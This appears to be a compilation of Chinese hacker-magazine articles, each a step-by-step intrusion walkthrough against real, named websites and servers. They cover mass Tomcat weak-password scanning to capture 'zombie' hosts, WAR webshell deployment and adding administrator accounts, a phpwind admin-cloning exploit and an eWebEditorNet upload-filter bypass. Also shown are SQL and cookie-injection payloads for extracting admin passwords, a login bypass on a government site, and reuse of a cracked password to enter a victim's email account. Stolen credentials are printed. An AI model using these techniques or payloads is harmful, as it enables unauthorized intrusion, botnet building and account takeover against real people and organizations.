IP 地址列表可导入到 Apache Tomcat Scan 中来扫描弱口令。这种方法可以扫描指定 IP 段中存在 Tomcat 弱口令的主机，针对性比较强。如果你乐意，完全可以把全球的 IP 地址段都扫描一遍。相对第一种方法的缺点是需要自己先单独扫描开放 8080（80）端口主机的 IP 地址列表。先来看第一种方法，Apache Tomcat Scan 运行后的界面如图1所示，我们点“Options”来到软件设置的地方，如图2。


在这里可以通过“Import”按钮分别导入扫描 Tomcat 弱口令时的用户名列表、密码列表和 IP 列表。如果要导入用户名和密码，需要把用户名（密码）每个一行写入一个文本文件中，我就直接使用它默认的用户名和密码列表了。“Timeout(ms)”是超时，大家可以根据自己的网速来进行设置，网速快的可以设置小一点，网速慢的就设置大一点，基本上使用默认的就行了。如果我们已经有了要扫描的 IP 列表文件，可以通过“Import Ip Lists”选项下方的“Import”按钮来导入扫描。设置完成后点击“Search”，就会来到搜索的地方，如图3。


软件提供了 google 和 baidu 两个搜索引擎，后面的“1~255”选项会把 IP 进行扩展。比如我们搜索到的网站所在服务器的 IP 地址是 xxx.xxx.xxx.35，选中“1~255”后软件就会在扫描时扫描该 xxx.xxx.xxx.1~xxx.xxx.xxx.255 的整个 IP 段，而如果不选择的话在扫描时就只会扫描 xxx.xxx.xxx.35 这一个 IP 地址。可以看到，选中该选项后的扫描 IP 是不选时的 255 倍。为了扫描到更多的肉鸡，强烈建议选上。随便找一个关键字，比如“网吧”，搜索引擎就选 baidu 吧（建议搜国内肉鸡时使用 baidu，搜索国外肉鸡就使用 google，貌似地球人都知道 o(∩_∩)o...），点击后边的“Search”按钮，一会儿就显示出了结果，如图4。


由于选中了“1~255”，所以结果中有很多类似 121.13.224.1~121.13.224.255 的 IP 段。我们切换到“View”选项，刚才搜索到的 IP 段已经自动出现在“Ips Address List”中了，很方便，如图5。


点击“Start”按钮后就开始扫描存在弱口令的主机了，扫描过程中一个个的密码飞速闪过，看着真舒服啊。等到没有密码行再滚动时，扫描就结束了，在软件左上角的“Results”中显示的是扫描到的结果。经过 10 多分钟的扫描，检测了 44625 个 IP 地址，找到了 9 个存在 Tomcat 弱口令的 IP，如图6。不过，大家先别高兴得太早，即使扫描到了也不一定就能拿下主机，因为有的主机无法上传我们的 war 文件。


图6

我们就只能放弃，收下一个了。还有的主机尽管能够上传 war 文件，但 jsp 木马却不能运行；还有的即使 jsp 木马能够运行，但服务器系统不是 Windows，而是 Linux、SunOS 等，作为小菜的我也只好放弃了，谁让自己对它们不熟悉呢。


图7

先来看第一个结果，打开 http://221.204.253.58:8080/manager/html，在如图7所示的登录窗口中输入用户名 admin，密码就输入扫描到的弱口令 1234，成功登录进了 Tomcat 的管理页面，但一看操作系统，运气不怎么好，居然是 Linux 系统，如图8。


图8

没关系，再换下一个。我连续试了接着的几个 IP 地址，发现都是 Linux 系统，不甘心，继续试，终于找到一个能上传 war 文件的。把页面往下拉，看到了“WAR file to deploy”这一项，这就是上传 war 文件的地方，如图9。


图9


图10

通过“浏览”按钮选择我们的 war 文件 test3693.war，然后点“Deploy”，文件上传成功后就会多出一个名为 test3693 的目录，如图10。直接点击这个目录，就得到了一个简单的 jsp Webshell 了，如图11。通过它的上传功能我上传了一个自己爱用的 jsp File Browser，上传成功后打开的界面如图12所示。


图11


图12

这个 jsp shell 的功能还是很强大的，可以查看计算机上的文件，并能对文件进行删除、下载、重命名等操作。点击下面的“Launch command”按钮就来到了执行命令的地方，如图13。


图13

试着连接了一下 3389，可以连接，直接执行命令“net user 123 testtest /add”“net localgroup administrators 123 /add”，然后成功登录进了 3389，如图14。一台服务器肉鸡就这样简单地到手了。


图14

介绍完了第一种扫描肉鸡的方法，再来看第二种，也就是借助 s 扫描器扫描指定 IP 段内存在 Tomcat 弱口令的主机。比如我就扫描 61.61.1.1—61.61.255.255 范围内的 Tomcat 弱口令主机。

先使用 s 扫描器扫描出开放 8080 端口的主机，在命令行下切换到 s.exe 所在目录（假设文件名为 s.exe），输入命令：`s tcp 61.61.1.1 61.61.255.255 8080 512 /save`。意思是使用 512 线程扫描 61.61.1.1–61.61.255.255 范围内所有开放 8080 端口的主机，并把扫描结果输出到 `Result.txt` 文件中。扫描方式可用 tcp 或 syn；Win2000/2003 可用 syn，速度更快。


图15

图16

把前面和后面两行非 IP 信息删除，再使用空内容替换“8080 Open”，得到全是 IP 地址的列表文件。将该文件导入 Apache Tomcat Scan 扫描即可。文中示例导入了一个有 36433 个 IP 的列表，扫描到 23007 个 IP，并发现了 434 个存在弱口令的主机。

抓服务器肉鸡并非每台都顺利，重点是拿到 webshell 或服务权限。若目标是 system 权限运行（如 jsp），即使不能 3389 登录，也可借助 pcAnywhere、RealVNC、Radmin 等远控软件，或通过上传反弹木马等方式进一步控制。上传 war 文件时应避免与已有同名文件冲突。

使用 Apache Tomcat Scan 抓存在 Tomcat 弱口令的服务器，内网跳转简捷且可批量操作。文末提到本章使用的工具包括 Apache Tomcat Scan、s.exe、test3693、war、jsp File Browser 等。

### 香水葵软件类 phpwind 漏洞之利用

黑侠（Black Mask）


大家一定还记得上期杂志中的“phpwind 管理权限泄露漏洞之利用”一文。这里继续介绍该漏洞的两种简单利用方法。

#### 一、phpwind exploit 利用程序

phpwind 管理权限泄露漏洞利用程序早期为 Python 脚本，exe 版未公开。编译思路是安装 Python 与 py2exe，将 `phpwind.py` 放到 Python 目录，并新建 `setup.py`。

```python
from distutils.core import setup
import py2exe
setup(console=['phpwind.py'])
```

现在即可编译：打开 CMD 进入 Python 目录，执行 `python setup.py py2exe`。成功后会生成 `dist` 目录，`phpwind.exe` 即可执行文件。

文中继续演示运行结果（图1）。


图1

## 一个人的战争

### 一个入侵的战争


下边找个论坛来测试一下，我就以本机上架设的 PHPWind v6.3 RC 来进行测试了。比如现在论坛上有个管理员用户为 root，我要利用这个程序去克隆一个 root，回到 CMD 里，输入命令“phpwind http://localhost/PHP/.root”（提交时，程序会自动在 root 后面添加一个 MySQL 舍弃的 ASCII 码，ASCII 的区段在上期杂志中已经说得很清楚了），如图3。


已经注册成功了，密码是 123456。此时我们使用 root 这个用户是登录不了论坛的，所以我们需要使用 UID 来登录，输入 UID 为 3，密码为 123456，登录成功。看看现在是不是有两个 ROOT 用户了呀，如图4。


再来看看我们现在有没有前台的权限，如图5、图6。已经有权限了。

### 二、利用 minibrowser 提交数据来克隆用户

我们再来介绍一下如何利用 minibrowser 提交构造的数据来克隆用户。我们要用这个方法来克隆论坛的另外一个管理员 blackmask。打开 minibrowser.exe，在 URL 里输入注册网址 http://localhost/php/register.php，然后点击“get”进行提交。用户名填入 blackmask，密码填入 111111，Email 就填入 xxxdxd@126.com，如图7。最后点击“提交”，就会弹出来一个对话框，我们在用户名 blackmask 的后面添加上一个“%c1”，如图8。最后点击“Post”按钮，注册成功了，UID 是 5，来看看是不是有权限了，图9。


再来看看是不是有两个 blackmask 用户了，如图10。


```bash
phpwind http://localhost/PHP/.root
```

是不是非常简单地就拿到了论坛的前台权限了呀，但是后台还是无法进入。这两种方法也有一个缺点，就是倘若论坛在注册时开启了验证码，就不能成功了。希望有高手们能够解决这个问题。（文中涉及到的 phpwind 管理权限泄露漏洞利用程序以及 minibrowser，已经收录在了光盘中）

### eWebEditorNet 上传漏洞简单应用

王兴龙 [T.S.T]


各位小菜在玩入侵时，eWebEditor 漏洞可谓是给我们打开了方便之门。基本上每期杂志中都有一些入侵文章会用到它，但没想到它的同胞弟弟 eWebEditorNet 也出漏洞了，真是树大招风呀。我们打开 Google 或百度，搜索“inurl:eWebEditorNet”，就会找到许多使用 eWebEditorNet 的网站。从搜索结果中可以清楚地看到 eWebEditorNet 的地址，如图1。


当我们使用浏览器打开 `http://www.lnwlw.com/eWebEditorNet/Upload.aspx` 时，可以看到只有“浏览”按钮，却根本没有上传按钮，如图2。不过没关系，使用“浏览”按钮选择好我们要上传的木马，直接在 IE 浏览器中输入 `javascript:lbtnUpload.click();`，回车以后就已经上传了，如图3。


上传完毕后，我们点击鼠标右键，选择“查看源文件”，然后搜索 `.aspx`，郁闷呀，居然是“parent.UploadError('不允许上传此类型的文件！！')”，看来上传失败了，网站做了过滤，限制了 ASPX 文件的上传。继续返回到上传界面，我们在要上传的 aspx 后面打一个空格试试，如图4。重新上传，完毕后查看返回的原代码“parent.UploadSavedFinish('20085******368.aspx','jackie.aspx  ');history.back();”，呵呵，已经绕过了限制，成功上传了 ASPX 文件。文件默认的上传后保存地址是“eWebEditorNet/UploadFile/”，在浏览器中打开来看看是否上传成功了，哈哈，webshell 得到了，如图5。


可能有一些小菜不明白我在上边那样操作的原因，我简单解释一下：

- `javascript:lbtnUpload.click();` 主语言为 JavaScript，向当前页面的 lbtnUpload 发送一个单击事件，实际上也就相当于我们点了提交按钮。
- 程序里面限制了 ASPX 为后缀的文件不允许上传，在 ASPX 的后面添加了一个空格（实际上加制表符号也行，例如“\t”），脚本获取到的文件名就变为了“aspx ”，所以 `if xxx='aspx' then` 这种类型的判断语句就不好使了。修复方法为把“不允许”改为“只允许”。


## 一个人的战争

### 入侵网游代练网——

司徒浩男 / 张超


前几日，与道中黑友们检测了一个网游代练网站，搞了好久都没有拿下。不放弃的我经过几天的努力，最后终于将它 PK 了。在此，就将整个入侵过程写出来，与大家交流一下。打开首页后使用啊D注入工具在对方的站点内狂扫，提示的几个注入点检测字段都为空（网站上有个动网 7.1 版的论坛，论坛正在维护中，所有的功能不能使用）。

### 第一部：巧妙构造注入点，得到管理后台权限

我们打开主页 www.100pk.com，在主页中注册一个账号。登录进去后系统会自动给新注册人员发送一个短消息，打开短消息页面（图中是我自己给自己发了个消息），如图1。


点击短消息主题，然后在地址栏的网址后添加“'”符号看是否被过滤了，结果如图2所示。多么熟悉的注入漏洞呀，看来这个可以作为一个注入点了。


马上复制地址，把它粘贴到啊D注入工具中进行检测，一会儿工夫就得到了管理员后台的账号为 admin，密码为 tm5201，如图3。

接下来扫描网站后台，很快就得到了后台地址 http://www.100pk.com/admin/login.asp，使用得到的账号和密码成功登录了进去。在后台，发现服务器设置得有点不尽人意，所有的上传都被禁用了，如图4、图5。


#### 第二部分：借数据库备份显威

进入后台，我们仔细地找了下能够利用的地方，除了有一个数据库备份外没别的有用的了（思路一：先把 conn.asp 文件备份成 mdb，然后下载下来，通过该文件得到数据库的真实地址）。点击数据库备份，然后在“当前数据库路径”中填写“../bbs/conn.asp”，在“备份数据库目录”中填写“../bbs”，“备份数据库名称”就可以任意填写了，我填的是 115.mdb，如图6。

点击“开始备份”按钮，提示数据库备份完成。我们打开 http://100pk.com/bbs/115.mdb，将这个文件下载下来，然后使用记事本打开，得到了如图7所示的资料。

```vb
Const SqlDatabaseName = "dubbs"
Const SqlPassword = "dubbs"
Const SqlUsername = "dubbs"
Const SqlLocalName = "(local)"
...
SqlNowString = "GetDate()"
Else
...
SqlNowString = "Now()"
End If
Const IsDebug = 1
Set Dubbs = New Cls_Forum
```

可以确定数据库的真实地址为 wdata/tm520wlym.asp（思路二：我们再把数据库 tm520wlym.asp 备份为 mdb 格式后再下载下来）。按照上边的操作，把 tm520wlym.asp 进行备份，如图8。


打开地址 http://100pk.com/bbs/222.mdb，把这个数据库下载下来，使用数据库浏览器打开，找到 dv_log（这里记录了管理员登录后台的重要历史数据资料），然后在“字段名”那里填写 l_content，在“关键字”那里填写 pass，点击后边的“查询”按钮，如图9。我们就查询出了论坛管理员的账号为 quickwind，密码为 7561144，如图10。

#### 第三部分：头像上传功能助我拿 shell

我们打开论坛地址 http://100pk.com/bbs，输入管理员的账号和密码进行登录。我翻遍了所有地方，发现只有管理员头像这里可以上传（注册用户不让上传自己的头像，只有管理员才可以）。我们在论坛里点“基本设置”，在基本设置选项中上传头像（把 asp 木马更改格式为 jpg，然后在头像这里选择我们的 jpg 图片木马进行上传），如图11。


提示上传成功，然后再利用刚才的数据库备份，把我们的 jpg 图片木马还原成 asp 的（这里最好先上传 asp 小马，否则文件太大有可能上传不成功，因为头像上传限制了图片大小），这样我们就得到一个 asp 木马了，如图12。


> （文字中涉及到的啊D注入工具、瀚臣数据库浏览器，已经收录在了光盘中）


### 对国家安全委员会的一次安全检测

> 文章中所涉及的漏洞：文章删除点、管理账号提交后绕过验证，以及登录后的上传权限利用等。

因为我是学药学的，所以会经常看“中国药典”，但是从来没有去网站看过。这天闲得无聊就转去看了看，顺便做了下安全检测，也就有了今天的这篇文章。整个网站都是 ASP 的，而且也看到了有 ID 提交（图1），那就先来看看有没有注入漏洞吧……

网站会把提交的 ID 页面直接转换成 HTML 页面出现（图2），我直接复制了链接放到 ID 中也没有检测出有什么问题（图3）。看起来好像是没有办法了。我想了想，国家级别的部门安全性应该好一点，还是看看别的地方吧。先找一下后台，在网址后面加一个 admin，后台出来了，如图4。


试了一下常用的密码都不对，我又试了一下那个常见的“or ''='”，没想到居然成功了。登录进入后台后，我就开始在后台找上传的地方了（图5）。看了看页面提交的代码，没有发现什么，试了一下没有上传成功（图6）。


看到这个提示，感觉应该是本地的 script 过滤方式，可是查看了一下页面源代码发现没有，好奇怪呀，代码如下：

```html
<html>
...
```

```html
<head>
  <title>后台管理系统</title>
  <meta http-equiv="Content-Type" content="text/html; charset=gb2312">
  <link rel="stylesheet" href="../css/style.css" type="text/css">
</head>
<frameset rows="39,1*" cols="*" frameborder="NO" border="0" framespacing="0">
  <frame name="mainFrame" scrolling="NO" noresize src="top.htm">
  <frameset cols="138,*" frameborder="NO" border="0" framespacing="0" rows="*">
    <frame name="leftFrame" noresize scrolling="NO" src="left.asp">
    <frame name="rightFrame" src="right.asp" scrolling="YES">
  </frameset>
</frameset>
<noframes>
<body bgcolor="#FFFFFF" text="#000000" leftmargin="0" topmargin="0" marginwidth="0" marginheight="0">
</body>
</noframes>
</html>
```

还在考虑是怎么回事的时候，我想起来自己的浏览器使用的是 Firefox，有一个功能是页面信息，打开看了一下，如图7。看到了一个链接 news_info.asp?news_type_id=30，这个链接有点眼熟，访问了一下看看，发现就是一个文章提交的地方，如图8。


把上边这段代码里繁琐的部分去掉了以后，在本地弄一个提交，传上去了，如图9、图10。


提交成功后会自动返回到发布页面，现在去首页看看我们刚才发布的信息，我们的木马就在那里（图11）。打开这个页面，可以看到我们的木马乖乖地躺在那里，使用浏览器访问地址，木马就出来了。

```html
<SCRIPT ID="clientEventHandlersJS" LANGUAGE="javascript">
<!--
if(extname!=".jpg" && extname!=".gif"){
  alert("请选择jpg或gif文件");
  return(false);
}
return true
//-->
</SCRIPT>
```


好了，webshell 已经得到了，以后怎么提权就不是本文的内容了。另外，我上去以后发现这个网站使用的上传组件是上传 V1.0，看了看代码发现这个上传没有任何过滤，也就是说直接就可以上传了，就看大家怎么去寻找了。

> （文章中涉及到的啊D注入工具已经收录在光盘中）

### 用 Cookie 注入网企企业网站管理系统


现在的 SQL 注入已经不像以前那样好使了，以前在 Google 里一搜就是一大片可以注入的网站，现在却明显减少了。唉！小菜可真不好当啊。目前的大部分网站都采用了各种各样的防注入程序，各位小菜就和我一起把目光锁定在这些防注入程序上，看我们如何突破它，继续我们的 SQL 注入之旅。

本文将以“网讯企业网站管理系统”为例来给大家进行演示，打开他们的演示网站，如图1。看样子内容挺丰富的，可是安全性就得打个折扣了。

#### 一、原理篇

- 1. 判断是否存在 Cookie 注入
  - 我们随便点开一个页面，就选择“企业新闻”这个栏目吧。

## 一个人的战争

打开 `http://demo.vooson.com/3/shownews.asp?id=98`，判断是否存在 COOKIE 注入，最简单的方法还是手工检测。先看一下判断语句 `javascript:alert(document.cookie="id="+escape("值 and 1=1"));`，把里面的变量换成该地址的变量，这里为 `id`，而语句里的值也就是 `id` 后面的数字，这里为 `98`。修改完后就是 `javascript:alert(document.cookie="id="+escape("98 and 1=1"));`。我们把它输入到浏览器地址栏中，然后提交，刷新页面 `http://demo.vooson.com/3/shownews.asp`。

`shownews.asp` 返回正常（图2）。我们再把那个“1=1”换为“1=3”，重新提交（图3），然后我们访问 `http://demo.vooson.com/3/shownews.asp`，返回了“数据库出错”的提示（图4）。以此我们就可以判断出该程序基本上存在 COOKIE 注入漏洞了。


图 2


图 3


图 4

##### 2、分析程序

我们现在知道了 `shownews.asp` 文件有可能存在 COOKIE 注入，所以我们就翻开源代码去看。关键代码如下。

```asp
<%owen=request("id")%> '赋值操作
<%
id=cstr(request("id"))
Set rsnews=Server.CreateObject("ADODB.RecordSet")
sql="update news set hits=hits+1 where id="&id
conn.execute sql
sql="select * from news where id="&owen '查询语句，owen 值未过滤
rsnews.Open sql,conn,1,1
title=rsnews("title")
if rsnews.eof and rsnews.bof then
  response.Write("数据库出错")
else
%>
```

通过上面的注释，大家应该看清楚它是如何存在 SQL 注入了吧。另外，为什么还存在防注呢？因为在源文件头有这么一句 `<!--#include File="Check_Sql.asp"-->`，根据名字大家也能猜出个八九不离十吧。我们继续查看 `Check_Sql.asp` 文件，里面果然是我们要找的防注入代码。关键代码如下：

```asp
<%
Dim Query_Badword,Form_Badword,i,Err_Message,Err_Web,name
'————省去无关代码————
'——对 get query 值的过滤
If request.QueryString<>"" then
  Chk_badword=split(Query_Badword,"|")
  FOR EACH Query_Name IN Request.QueryString
    for i=0 to ubound(Chk_badword)
      If InStr(LCase(request.QueryString(Query_Name)),Chk_badword(i))<>0 Then
        Select case Err_Message
      End if
    next
  next
End if
'——对 post 表单值的过滤
If request.form<>"" then
  Chk_badword=split(Form_Badword,"|")
  FOR EACH name IN Request.Form
'————省去无关代码————
End if
%>
```

通过查看这段代码，知道了程序对 GET 和 POST 提交的值做了过滤，并且过滤得还是比较完整的，但是程序却没有限制 COOKIE 的提交，这也就是我们今天所要说的 COOKIE 注入了。

#### 二、利用篇

##### 1、手工猜解

手工猜解是个体力活，不过大家还是要学会的。我们开始猜测管理员帐号的长度，看它是否等于 5，构造如下语句：`javascript:alert(document.cookie="id="+escape("98 and (select top 1 len(username) from admin)=5"));`，提交后如图 5 所示。然后刷新 `http://demo.vooson.com/3/shownews.asp`，大家根据结果……

##### 2、工具猜解

小菜们如果不喜欢手工猜解的话，那就和我一起使用“寂寞的刺猬”大叔的注入中转生成器。打开工具后，选择左侧的 COOKIE 注入项，然后在“注入键名”处填写上“id=”，在“注入 URL 地址”处填写成“http://demo.vooson.com/3/shownews.asp”，下边的“来源页”也是一样的，然后点“生成 ASP”就行了，如图6。

在同目录下就会生成 `jmCook.asp`，我们在本地使用 Freda ASP Web 服务器运行该文件，就可以利用工具进行猜解了。注意地址后面的变量为 `jmdcw`，值为原来的值，如图7。可惜我猜解了半天也没有把 `admin` 这个表给猜解出来，有可能是因为演示版的问题吧，也有可能是管理员把数据库里的 `admin` 表给删除了。


来猜解密码的长度，构造语句提交，猜解内容是否大于 16。返回错误的话就改成 15，如果 15 正确的话就代表密码是 16 位。再继续猜解密码的内容，构造语句提交，查看第一位是否为 a，a 的 ASCII 码就是 97，然后替换进行猜解。猜解管理员账号的原理也是一样的，把 `password` 换成 `username` 就可以了。

```javascript
javascript:alert(document.cookie="id="+escape("98 and (select top 1 len(password) from admin)>16"));
javascript:alert(document.cookie="id="+escape("98 and (select top 1 asc(mid(password,1,1)) from admin)=97"));
```

#### 三、总结

虽然程序还有很多地方没有进行分析，但是主要问题已经给大家说明了。这套程序的安全性也可以说不怎么样吧，有很多地方存在着其它漏洞。我在评论这儿测试了一下，就发现没有过滤一些有特点性的字符，很有可能存在跨站漏洞。还有很多别的地方，大家有兴趣的话就自己去分析吧。

> （文章中涉及到的注入中转生成器、Freda ASP Web 以及 VooSon 网讯企业网站管理系统 2008 的源码已经收录在了光盘中）

### 一个论坛帐号引发的故事

#### 柔肠寸断


记得上次使用 webshell 搞到了一个大型医院网站的动网论坛的管理员帐号，正好最近我在研究社会工程学，那就从它来入手，看看今天能有什么收获。

- 1. 下载了医院论坛的数据库，打开后随便选择一个用户（图1），把该 MD5 密码拿到 cmd5.com 上进行在线查询，成功查询出了密码是 231521（图2）。登录这个论坛是肯定可以的了，但是就没有什么更好玩的了吗？我的眼光在数据库的 `user_email` 字段上闪过，突然看到有个 sina 的邮箱，那我就来登录看看，就使用刚才的密码，因为许多个人用户都不会使用太多密码的，太多了也不容易记住。

- 2. 打开 `mail.sina.com`，输入他的邮箱和密码 231521，点击登录，页面停了一会儿，登录成功了，里面有不少的邮件嘛。


